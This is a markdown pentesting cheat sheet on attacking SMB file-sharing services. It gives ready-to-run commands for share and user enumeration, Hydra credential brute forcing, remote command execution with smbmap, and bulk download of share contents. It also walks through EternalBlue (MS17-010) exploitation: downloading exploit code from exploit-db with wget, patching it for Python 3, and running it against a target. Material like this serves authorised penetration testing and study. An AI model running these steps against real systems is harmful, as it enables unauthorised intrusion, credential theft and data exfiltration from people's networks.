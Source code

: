 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: Default port is 139, 445.
tags: [139, 445, Active, Directory, EternalBlue, Hydra, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

- **Nmap**

    ```sh
    nmap --script smb-brute -p 445 <target-ip>
    nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
    nmap --script smb-enum* -p 445 <target-ip>
    nmap --script smb-protocols -p 445 <target-ip>
    nmap --script smb-vuln* -p 445 <target-ip>
    ```

- **Enum4linux**

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

- **Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

<br />

## Brute Force Credentials

```sh
hydra -l username -P passwords.txt <target-ip> smb
hydra -L usernames.txt -p password <target-ip> smb
```

<br />

## Connect

- **Smbclient**

    ```sh
    smbclient -L 10.0.0.1
    smbclient -N -L 10.0.0.1
    smbclient -N -L \\\\10.0.0.1
    smbclient -L 10.0.0.1 -U username

    # anonymous
    smbclient //10.0.0.1/somedir -N
    # with space
    smbclient "//10.0.0.1/some dir" -N

    # Specify shared directory
    smbclient //10.0.0.1/somedir -U username
    # nobody, no-pass
    smbclient //10.0.0.1/somedir -N -U nobody

    # Specify workgroup
    smbclient -L 10.0.0.1 -W WORKGROUP -U username
    ```

    After connecting, you can download all files in share directory by the following commands:

    ```sh
    SMB:> mask ""
    SMB:> recurse ON
    SMB:> prompt OFF
    SMB:> mget *
    ```

    Or using Smbget from external:

    ```sh
    smbget -R smb://10.0.0.1/somedir -U username

    # Specify workgroup
    smbget -R smb://10.0.0.1/somedir -w WORKGROUP -U username
    ```

<br />

## EternalBlue (MS17-010)

- **AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

- **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```
